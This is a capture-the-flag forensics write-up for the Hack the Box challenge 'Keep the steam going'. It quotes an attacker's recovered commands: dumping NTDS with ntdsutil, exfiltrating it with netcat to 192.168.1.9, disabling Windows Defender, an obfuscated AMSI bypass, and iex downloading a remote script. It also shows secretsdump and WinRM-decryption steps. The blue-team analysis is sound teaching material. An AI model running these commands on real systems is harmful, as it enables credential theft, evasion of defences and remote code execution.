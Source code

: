 ```yaml
---
title: "HTB • Keep the steam going"
tags:
  - "Forensics"
  - "Hard Difficulty"
  - "Advanced"
  - "Windows"
  - "Deobfuscation"
  - "WinRM"
  - "Blue Team"
  - "Packet Capture"
  - "Malware Analysis"
  - "PowerShell"
excerpt: "Keep the steam going is a hard forensics challenge on Hack the Box that involves the inspection of a packet capture to pinpoint malicious traffic. Along the way we deobfuscate a powershell script, recover NTDS secrets, and decrypt WinRM traffic."
categories:
  - "Writeups"
  - "Hack the Box Challenges"
img_path: "/assets/img/post/htb-challenges-keep-the-steam-going/"
---
```


_Keep the steam going_ is a hard forensics challenge created by [**thewildspirit**](https://app.hackthebox.com/users/70891) on [**Hack the Box**](https://app.hackthebox.com/challenges/279) that involves the inspection of a packet capture to pinpoint malicious traffic. Along the way we deobfuscate a powershell script, recover NTDS secrets, and decrypt WinRM traffic.

> The network in which our main source of steam is connected to, got compromised. If they managed to gain full control of this network, it would be a disaster!

## Initial Capture Analysis

We'll first open the capture file in [Wireshark](https://www.wireshark.org/) and filter by HTTP traffic. We immediately find a request to `http://192.168.1.9/rev.ps1`{:.filepath}. 

![Obfuscated shell](rev.png)
_We find a powershell script being served over HTTP_

Although the script is obfuscated using several different methods, parts of it are readable. We suspect this is a reverse shell script though because of the general length as well as the descriptive variable names such as _stream_, _sendback_, and _client_.

## Reverse Shell

As we manually deobfuscate some of the content from that powershell script, we discover that the script connects back to **192.168.1.9** on port **4443**. Let's check the packet capture for TCP traffic over this port.

![Reverse shell session](shell.png)
_We inspect the plaintext reverse shell session_

The adversary sends a series of commands to seemingly exfiltrate the NTDS database along with the SYSTEM registry hive. This is presumably done in order to extract authentication secrets offline and establish persistence.

>
```powershell
whoami;hostname
ntdsutil "ac i ntds" "ifm" "create full c:\temp" q q
iex (New-Object System.Net.WebClient).DownloadFile("http://192.168.1.9/n.exe","C:\Users\Public\Music\n.exe")
certutil -encode "C:\temp\Active Directory\ntds.dit" "C:\temp\ntds.b64"
certutil -encode "C:\temp\REGISTRY\SYSTEM" "C:\temp\system.b64"
cat C:\temp\ntds.b64 | C:\Users\Public\Music\n.exe 192.168.1.9 8080
cat C:\temp\system.b64 | C:\Users\Public\Music\n.exe 192.168.1.9 8080
```
{:.nolineno}

The adversary uses `certutil.exe`{:.filepath} to encode the files, then `n.exe`{:.filepath} (probably netcat), to transport the files over TCP port **8080**.

## Exfiltration

Let's check for traffic over port 8080 in our capture file in order to extract `ntds.b64`{:.filepath} and `system.b64`{:.filepath}.

![Exfiltration traffic](exfil.png)
_The adversary encodes & downloads some goodies_

TCP Streams 23 and 24 should be `ntds.b64`{:.filepath} and `system.b64`{:.filepath} respectively. with this in mind let's export both streams then decode the contents.

```bash
for n in ntds system; do grep -v '-' $n.b64 | base64 -d > $n; done
file ntds system # make sure they are properly formatted
```
{:.nolineno}

Now that the recovered files are in the correct format, we follow the tracks by using `secretsdump.py`{:.filepath} from [impacket](https://github.com/fortra/impacket) to extract some secrets we could potentially use to decrypt certain communications in the capture file.

```bash
mkdir secrets
secretsdump.py local -history -ntds ./ntds -system ./system -outputfile ./secrets/export
```
{:.nolineno}

We can now access the extracted secrets in `./secrets/`{:.filepath} if we need to.

## WinRM

Back at the packet capture, we filter out the traffic sent after the exfiltration over port 8080 using the filter `frame.number > 21346`. This will allow us to better see what actions the adversary took after stealing the NTDS secrets.

![Traffic after exfiltration](post-exfil.png)
_Looking for actions taken by the adversary after reading the NTDS secrets_

It looks like the attacker then used the NT hash for the user **Administrator** to connect to the machine via WinRM. The request body in each post-authentication request seems to be encrypted and labeled "**application/http-spnego-session-encrypted**". After some research into encrypted WinRM exchanges, we come across [this gist](https://gist.github.com/jborean93/d6ff5e87f8a9f5cb215cd49826523045) created by [Jordan Borean](https://github.com/jborean93).

### Decryption

using [the python script](https://gist.github.com/jborean93/d6ff5e87f8a9f5cb215cd49826523045) mentioned earlier, we are able to decrypt the WinRM traffic using the NT hash for the user _Administrator_.

```bash
python3 winrm_decrypt.py -n "8bb1f8635e5708eb95aedf142054fc95" capture.pcap > decrypted.txt
```
{:.nolineno}

Now `decrypted.txt`{:.filepath} contains a bunch of XML that we filter through using some GNU utilities.

```bash
grep -Ei 'command|argument' decrypted.txt # Found tags rsp:Command, rsp:Arguments
grep -i '<rsp:Arguments>' decrypted.txt |
  sed -E 's/.*>(.*)<.*/\1/g' |
  base64 -d > arguments.bin # Save arguments
```
{:.nolineno}

Looking at the `arguments.bin`{:.filepath} file, there seems to be powershell code within the `<S N="V">` tags. Every other command is `(get-location).path`, which is probably not manually run by the adversary but rather a product of their WinRM shell.

```bash
strings arguments.bin |
  grep -i '<S N="V">' |
  sed 's/^\s*<S N="V">//' |
  grep -v '^(get-location).path$'
```
{:.nolineno}

>
```powershell
whoami;hostname
sc stop WinDefend
Set-MpPreference -DisableRealtimeMonitoring $true
[Ref].Assembly.GetType('System.Management.Automation.'+$("41 6D 73 69 55 74 69 6C 73".Split(" ")|forEach{[char]([convert]::toint16($_,16))}|forEach{$result=$result+$_};$result)).GetField($("61 6D 73 69 49 6E 69 74 46 61 69 6C 65 64".Split(" ")|forEach{[char]([convert]::toint16($_,16))}|forEach{$result2=$result2+$_};$result2),'NonPublic,Static').SetValue($null,$true)
echo "[REDACTED]"
iex (new-object net.webclient).downloadstring('http://192.168.1.9/drop.ps1')
```
{:file="input.ps1"}

It seems that the adversary disables Windows defender, bypasses AMSI, and executes a remote powershell script in memory. In between the last two commands, we can also find the flag.
